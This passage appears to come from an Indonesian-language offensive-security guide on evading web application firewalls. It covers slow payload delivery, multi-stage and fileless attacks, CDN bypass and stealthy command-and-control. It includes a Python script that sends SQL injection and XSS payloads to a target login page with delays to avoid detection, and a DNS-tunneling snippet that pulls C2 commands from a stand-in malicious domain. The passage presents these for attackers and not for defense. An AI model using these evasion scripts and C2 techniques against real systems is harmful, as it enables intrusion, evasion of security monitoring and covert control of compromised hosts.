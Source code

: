 1. **Low & Slow Attacks** → Mengirimkan payload dalam jumlah kecil untuk menghindari trigger WAF.  
2. **Multi-Stage Exploits** → Memecah payload menjadi beberapa tahap agar tidak dikenali sebagai serangan tunggal.  
3. **Fileless Attacks** → Mengeksekusi payload langsung dalam memori tanpa menyentuh disk (menghindari logging).  

**Contoh "Low & Slow Attack" di Python:**  
```python
import time
import requests

payloads = ["' OR '1'='1", "UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target = "https://target.com/login"

for payload in payloads:
    response = requests.post(target, data={"username": "admin", "password": payload})
    print(f"Sent payload: {payload}")
    time.sleep(10)  # Delay antar-request untuk menghindari deteksi WAF
```

---

## ☁️ 2. Eksploitasi Infrastruktur Cloud & CDN untuk Bypass WAF

Banyak organisasi menggunakan **Cloudflare, AWS, atau Akamai** untuk melindungi infrastruktur mereka.  
Namun, ada metode yang dapat digunakan untuk melewati proteksi ini:

1. **Origin IP Discovery** → Menemukan IP asli server target untuk melewati WAF cloud.  
2. **CDN Cache Poisoning** → Memanipulasi cache server untuk menginjeksikan payload berbahaya.  
3. **HTTP Desync Attacks** → Mengeksploitasi perbedaan parsing antara WAF dan backend server.  

**Contoh Menemukan IP Asli dari Server Cloudflare:**  
```bash
dig +short target.com @1.1.1.1
```

---

## 🕵️‍♂️ 3. Stealth Command & Control (C2) untuk Operasi Jangka Panjang

Dalam operasi **Advanced Persistent Threats (APT)**, penyerang menggunakan **Command & Control (C2) server** untuk berkomunikasi dengan malware tanpa terdeteksi.  
**Teknik utama yang digunakan:**  

- **Domain Fronting** → Menyembunyikan traffic C2 menggunakan domain sah seperti Google atau Cloudflare.  
- **DNS Tunneling** → Menggunakan DNS query sebagai saluran komunikasi.  
- **Covert Channel Exploits** → Menggunakan media sosial atau layanan publik sebagai relay C2.  

**Contoh DNS Tunneling untuk Bypass WAF:**  
```python
import dns.resolver

domain = "malicious-command.com"
response = dns.resolver.resolve(domain, "TXT")

for txt_record in response:
    print(f"Received C2 Command: {txt_record}")
```

---